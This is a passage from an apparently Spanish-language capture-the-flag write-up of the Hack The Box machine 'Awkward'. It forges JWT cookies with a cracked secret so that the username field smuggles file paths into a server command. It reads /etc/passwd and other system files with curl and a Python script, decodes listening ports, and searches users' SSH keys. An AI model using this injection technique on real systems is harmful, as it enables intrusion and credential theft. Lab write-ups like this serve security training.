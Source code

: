 Si en jwt.io cogemos la cookie de Christofer y le modificamos el user a ```/' /etc/passwd '```
```console
└─$ curl -s http://hat-valley.htb/api/all-leave -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6Ikp"
christopher.jones,Donating blood,19/06/2022,23/06/2022,Yes
christopher.jones,Taking a holiday in Japan with Bean,29/07/2022,6/08/2022,Yes

└─$ curl -s http://hat-valley.htb/api/all-leave -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
root:x:0:0:root:/root:/bin/bash
```
![](/assets/images/htb-awkward/awkward6.png)

Como hacer cada cookie manualmente con el jwt.io es un poco rollo, mejor hacer un script en python que lo 
automatize todo.
```python
import jwt, requests

paths = ["/etc/passwd", "/proc/net/tcp", "/etc/hostname", "/etc/hosts", "/etc/crontab"]
for path in paths:
    cookie = jwt.encode({"username": "/' " + path + " '", "iat": 1677407978}, "123beany123", algorithm="HS256")
    req = requests.get("http://hat-valley.htb/api/all-leave",cookies={"token":cookie})
    print(req.text)
```
Los usaurios del sisteam son: bean y christine aparte de root.
El output de la ruta /proc/net/tcp lo he metido en el archivo ports para tratarlo.
```console
└─$ for port in $(cat ./ports | awk '{print $2}' | awk '{print $2}' FS=":" | sort -u); do echo "$((16#$port))" | tr "\n" "," | sed "s/,/, /g" ; done
22, 25, 53, 80, 3002, 3306, 8080, 33060, 39518, 39534, 42542, 48484, 56174, 56190,  
```
Como no he encontrando nada mas interesante busco por los archivos de cada usaurio (bean y christine):
- /home/usaurio/.ssh/id_rsa -> de ninguno  
- /home/usaurio/.bashrc | grep -E "\.py|\.sh|\.c|\.php" -> alias backup_home='/bin/bash /home/bean/Documents/backup_home.sh'
